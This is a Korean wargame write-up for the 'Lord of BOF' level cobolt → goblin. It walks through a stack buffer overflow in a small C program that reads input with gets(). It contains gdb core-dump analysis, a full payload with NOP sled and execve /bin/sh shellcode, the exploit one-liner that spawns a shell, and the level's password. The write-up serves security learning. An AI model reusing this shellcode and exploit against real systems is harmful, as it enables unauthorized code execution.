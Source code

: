 # [WriteUp]The Lord of BOF - cobolt → goblin

:black_nib:chykor12(sjjo0225@gmail.com)

---

```bash
[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

`gets()`로 입력을 받는 것을 제외하고는 `cobolt`와 다른 점이 없다.

BOF를 발생시켜서 `core` 파일을 디버깅해보자.

```bash
[cobolt@localhost /tmp]$ ./goblin
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
[cobolt@localhost /tmp]$ gdb -c core
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux".
Core was generated by `./goblin'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/20wx $esp-0x20
0xbffffcb0:	0x08048470	0xbffffcb8	0x41414141	0x41414141
0xbffffcc0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffcd0:	0x41414141	0x41414141	0x41414141	0x40013800
0xbffffce0:	0x00000001	0x08048350	0x00000000	0x08048371
0xbffffcf0:	0x080483f8	0x00000001	0xbffffd14	0x080482bc
```

`esp`의 바로 앞인 `0xbffffccc`가 리턴 어드레스의 주소이므로, 버퍼의 시작 주소와 리턴 어드레스는 `0x14`만큼 떨어져 있다. 리턴 어드레스는 적당히 `0xbffffd10` 정도로 덮으면 될 것 같다.

payload: dummy(`0x14`byte) + return address(`0xbffffd10`) + NOP sled(`0x1000`byte) + shellcode(`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80`)

파이썬 파이프라인을 이용해서 입력을 주는데, 원인은 모르겠지만 입력 문자열의 크기가 840바이트 이상이면 프로그램이 정상적으로 작동하지 않는 문제가 있었다. 그래서 NOP sled의 길이를 500바이트로 줄여서 시도하였다.

```bash
[cobolt@localhost cobolt]$ (python -c 'print "A"*0x14+"\x10\xfd\xff\xbf"+"\x90"*500+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"';cat)|./goblin
AAAAAAAAAAAAAAAAAAAA�����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ

whoami
goblin
my-pass
euid = 503
hackers proof
```
